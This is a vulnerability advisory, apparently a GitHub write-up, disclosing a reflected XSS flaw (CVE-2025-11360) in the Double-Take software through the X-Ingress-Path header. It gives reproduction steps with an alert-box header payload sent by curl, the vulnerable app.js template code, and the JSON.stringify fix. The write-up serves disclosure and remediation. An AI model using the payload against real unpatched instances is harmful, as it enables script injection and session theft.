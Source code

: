 # CVE-2025-11360 - XSS in 'Double-Take' Facial Recognition Software

Unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability in version <=1.13.1 of double-take: https://github.com/jakowenko/double-take and https://hub.docker.com/r/jakowenko/double-take.
The maintainer fixed the vulnerability in version 1.13.2 after I responsibly disclosed the issue to him.

Specifically, the vulnerability is located in the `api/src/app.js` file, which evaluates unsanitized HTTP GET headers passed via the `'X-Ingress-Path'` header.
This allows an attacker to inject arbitrary JavaScript into the response, resulting in reflected XSS when the UI is accessed with a malicious header present.

## Affected Versions:
double-take <=1.13.1, github commit: 8e2728d283b3901d688c2454086fd0b512739b53

## Fixed Version:
double-take 1.13.2, github commit: 92521a0bc8ba70f64c4f794332d48387663ba20e

## CVSS v3.1 Score: 4.3 (Medium)
## Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Proof of Concept and Steps to Reproduce:

1. Download "Double Take" <=1.13.1:
`https://github.com/jakowenko/double-take/archive/refs/tags/v1.13.1.zip`

`cd double-take-1.13.1`

2. Point docker-compose.yml to version 1.13.1:

# docker-compose.yml
```
version: '3.7'

volumes:
  double-take:

services:
  double-take:
    container_name: double-take
    image: jakowenko/double-take:1.13.1
    restart: unless-stopped
    volumes:
      - double-take:/.storage
    ports:
      - 3000:3000
```

3. Start "Double Take" using docker compose
`docker compose up -d`

4. Set the following HTTP header in Chrome (via the ModHeader extension or similar):
`X-Ingress-Path: ';window.onload = function() { alert(1); }//`


3. Visit the Double-Take UI in a browser:
`http://localhost:3000`

You will see a JavaScript popup alert - confirming JavaScript execution.

3. Alternatively, executing via curl demonstrates that the windows.ingressUrl parameter populates with the payload:

`curl -H "X-Ingress-Path: ');window.onload = function() { alert(1); }//" http://localhost:3000/`


## Impact:
This vulnerability is an example of Unauthenticated Reflected XSS. An attacker who compromises this flaw could execute arbitrary JavaScript in a victim's browser session, steal session cookies or authentication tokens,
extract sensitive information, or impersonate users to deliver social engineering attacks. This particular exploit requires header injection (via `X-Ingress-Path`),
but it still can be exploited in the wild via misconfigured reverse proxies, malicious browser extensions, or insecure internal tooling that injects headers. Exploiting this vulnerability via a proxy is particularly dangerous since double take is often used in home lab setups, where users setup reverse proxies to access their servers from outside of their own network. A compromised proxy could trivially exploit this vulnerability for arbitrary user requests being sent to the internal server double take runs on.

## Remediation:
The core vulnerability stems from the html.replace() function (lines 27-34) in `double-take/api/src/app.js`:

    html.replace(
      '</head>',
      `<script>
        window.ingressUrl = '${req.headers['x-ingress-path'] || ''}';
        window.publicPath = '${UI?.PATH || ''}';
      </script>
      </head>`
    )

This function directly embeds unsanitized input from the `X-Ingress-Path` header of a `GET` request into a JavaScript `<script>` block. 
In order to prevent this exploit, I recommended safely escaping values with a function like `JSON.stringify()`:

```
const ingressUrlSafe = JSON.stringify(req.headers['x-ingress-path'] || '');
const publicPathSafe = JSON.stringify(UI?.PATH || '');

res.send(
  html.replace(
    '</head>',
    `<script>
      window.ingressUrl = ${ingressUrlSafe};
      window.publicPath = ${publicPathSafe};
    </script>
    </head>`
  )
);
```

The project maintainer implemented my fix in v1.13.2, as can be seen in the commit comment history on github (92521a0bc8ba70f64c4f794332d48387663ba20e).
